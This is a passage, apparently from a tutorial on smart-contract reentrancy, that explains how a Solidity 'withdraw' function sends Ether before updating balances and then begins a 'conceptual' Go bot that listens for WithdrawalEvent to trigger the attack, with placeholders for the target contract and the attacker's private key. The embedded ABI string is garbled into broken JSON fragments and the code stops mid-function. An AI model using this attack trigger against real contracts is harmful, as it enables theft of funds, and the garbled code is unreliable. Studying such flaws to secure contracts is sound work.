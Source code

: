 - **Explanation:** The critical flaw lies in the order within the `withdraw` function. The `WithdrawalEvent` is emitted, and the external Ether transfer via `msg.sender.call{value: amount}("")` is performed *before* the line `balances[msg.sender] = userBalance - amount;` executes. An attacker contract receiving the Ether via `.call()` can use its `receive()` function to immediately call `withdraw` again. Because the balance hasn't been updated yet, the `require` check passes, allowing multiple withdrawals. A bot listening for `WithdrawalEvent` can initiate this attack sequence as soon as the event is detected.
    
**Golang Example (Conceptual Bot Listener):**

This conceptual Golang code demonstrates how a bot could use the `go-ethereum` library to listen for the `WithdrawalEvent` and trigger an attack. **Note:** This bot code itself is *not* vulnerable to reentrancy; it acts as the trigger.

```Go

package main

import (
	"context"
	"fmt"
	"log"
	"math/big"
	"strings"
	"time" // Added for potential delays/timeouts

	"github.com/ethereum/go-ethereum"
	"github.com/ethereum/go-ethereum/accounts/abi"
	"github.com/ethereum/go-ethereum/common"
	"github.com/ethereum/go-ethereum/core/types"
	"github.com/ethereum/go-ethereum/crypto" // Needed for signing transactions
	"github.com/ethereum/go-ethereum/ethclient"
)

// Simplified ABI for VulnerableVault focusing on the event and withdraw function
const vaultABI = `,"name":"WithdrawalEvent","type":"event"},
    {"inputs":,"name":"withdraw","outputs":,"stateMutability":"nonpayable","type":"function"}
]`
const vulnerableVaultAddress = "0xYourVulnerableContractAddress" // Replace with actual deployed address
const nodeWSS_URL = "wss://your-ethereum-node-wss-url"           // Replace with your WebSocket endpoint
const attackerPrivateKeyHex = "YOUR_BOT_PRIVATE_KEY"             // Replace with bot's private key (handle securely!)

func main() {
	client, err := ethclient.Dial(nodeWSS_URL)
	if err!= nil {
		log.Fatalf("Failed to connect to Ethereum client: %v", err)
	}
	defer client.Close()

	contractAddress := common.HexToAddress(vulnerableVaultAddress)
	query := ethereum.FilterQuery{
		Addresses:common.Address{contractAddress},
	}

	logs := make(chan types.Log)
	subCtx, subCancel := context.WithTimeout(context.Background(), 5*time.Minute) // Add timeout for subscription
	defer subCancel()

	sub, err := client.SubscribeFilterLogs(subCtx, query, logs)
	if err!= nil {
		log.Fatalf("Failed to subscribe to logs: %v", err)
```